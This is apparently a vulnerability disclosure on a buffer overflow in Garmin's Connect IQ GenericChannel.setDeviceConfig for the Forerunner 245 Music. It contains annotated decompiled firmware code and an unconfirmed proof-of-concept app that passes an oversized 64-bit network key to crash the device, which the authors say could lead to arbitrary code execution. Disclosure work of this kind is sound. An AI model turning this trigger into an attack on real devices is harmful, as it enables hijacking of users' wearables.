 # Buffer Overflows in `Toybox.GenericChannel.setDeviceConfig`
The `GenericChannel` class can be configured to use encryption for ANT private channels when specified in the `Ant.DeviceConfig` configuration.

(See: [Garmin - Class: Toybox.Ant.GenericChannel](https://developer.garmin.com/connect-iq/api-docs/Toybox/Ant/GenericChannel.html#enableEncryption-instance_function))

The `Ant.DeviceConfig` object supports:

- ` networkKey64Bit`, an array representing the 64-bit network encryption key
- ` networkKey128Bit`, an array representing the 128-bit network encryption key

(See: [Garmin - Toybox.Ant.DeviceConfig](https://developer.garmin.com/connect-iq/api-docs/Toybox/Ant/DeviceConfig.html#initialize-instance_function))

When reviewing the firmware for the Forerunner 245 Music, we did not see the `networkKey128Bit` being referenced. It is possible that 128-bit encryption is not supported by this device.

The `networkKey64Bit` is copied to a static buffer without checking the size of the key, resulting in a buffer overflow. It is possible to hijack the execution flow of the device and execute arbitrary code.

```c
e_tvm_error native:Toybox.GenericChannel.setDeviceConfig(s_tvm_ctx *ctx,uint nb_args)
{
// [...]
    iVar7 = _tvm_object_get_object_data(ctx,*(void **)(puVar2 + (uint)local_54 * 0xc + 4),(undefined *)&local_48);
    if (iVar7 == 0) {
      tvm_get_field_value-?(ctx,device_configuration,field_networkKey64Bit,&network_key);
    }
    // Anvil: The function does not check the size of the receiving buffer
    // Anvil: See `Toybox.Ant.GenericChannel.enableEncryption` for more details
    psVar6 = (s_tvm_ctx *)tvm_copy_array_to_buffer(ctx,(char *)(local_48 + 3),&network_key,&local_53);
// [...]
}
```

The crash should be triggered with the following proof-of-concept, adapted from the [MO2Display sample app by Garmin available on GitHub](https://github.com/BodyFatControl/garmin-connectiq-linux/tree/9bb0dc2a1736af55aa2fab41f00c836661050480/samples/MO2Display). We could not dynamically confirm it due to ANT-related issues in our environment.

```java
class MyDeviceConfig extends Ant.DeviceConfig {
    function initialize(configuration) {
        Ant.DeviceConfig.initialize(configuration);

        self.networkKey64Bit = [
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
            // Crash starting beyond that point
            0x41, 0x42, 0x43, 0x44,
            0x41, 0x42, 0x43, 0x44,
        ];
    }
}

class MO2Sensor extends Ant.GenericChannel {
// [...]
        // Anvil: Sane values. The key will be overriden after initialization.
        deviceCfg = new MyDeviceConfig( {
            :deviceNumber => 0,
            :deviceType => DEVICE_TYPE,
            :transmissionType => 0,
            :networkKey64Bit => [1,2,3,4,5,6,7,8],
            :networkKey128Bit => [1,2,3,4,5,6,7,8,1,2,3,4,5,6,7,8],
            :messagePeriod => PERIOD,
            :radioFrequency => 57,
            :searchTimeoutLowPriority => 10,
            :searchThreshold => 0
		});
        GenericChannel.setDeviceConfig(deviceCfg);
// [...]
}
```